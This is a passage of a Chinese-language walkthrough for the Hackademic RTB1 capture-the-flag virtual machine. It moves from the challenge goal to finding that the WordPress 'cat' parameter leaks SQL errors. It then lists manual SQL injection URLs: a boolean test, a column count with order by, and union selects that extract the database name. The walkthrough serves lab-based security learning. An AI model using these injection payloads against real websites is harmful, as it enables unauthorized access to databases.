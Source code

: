     This is the first Realistic Hackademic Challenge (root this box).
    Have you got the skills to exploit this box and to take root?
    
    Goal:
    Gain access to the (HackademicRTB1) box and read the “Key.txt” file in the root directory.
    ```
    
2. 发现，点击页面的`Get root`链接后的url是这样的
    
    ```php
    http://192.168.75.132/Hackademic_RTB1/?p=9
    ```
    
    以及下方 `Uncategorized` 的链接
    
    ```php
    http://192.168.75.132/Hackademic_RTB1/?cat=1
    ```
    
    `?p` 以及`?cat`很可能存在`sql`注入漏洞
    
3. 尝试一下`sql`注入和文件包含
    
    `p`参数无任何回显，应该不存在sql注入和文件包含
    
    `cat`输入`1'` ,发现页面回显有问题，把sql语句爆了出来，`SELECT * FROM wp_categories WHERE cat_ID = 1\\\' LIMIT 1` ，并且可以看到表是`wp_categories` 
    
    ![image.png](image%201.png)
    
4. 尝试注入，手工
    
    ```php
    // 存在注入点
    http://192.168.75.132/Hackademic_RTB1/?cat=1 and 1=2
    // 表的列数有五列
    http://192.168.75.132/Hackademic_RTB1/?cat=1 order by 5
    // 爆回显位，页面回显位是第二位
    http://192.168.75.132/Hackademic_RTB1/?cat=0 union select 1,2,3,4,5
    // 爆库，页面回显 wordpress ，表示库名是wordpress 
    http://192.168.75.132/Hackademic_RTB1/?cat=0 union select 1,database(),3,4,5
    ```
    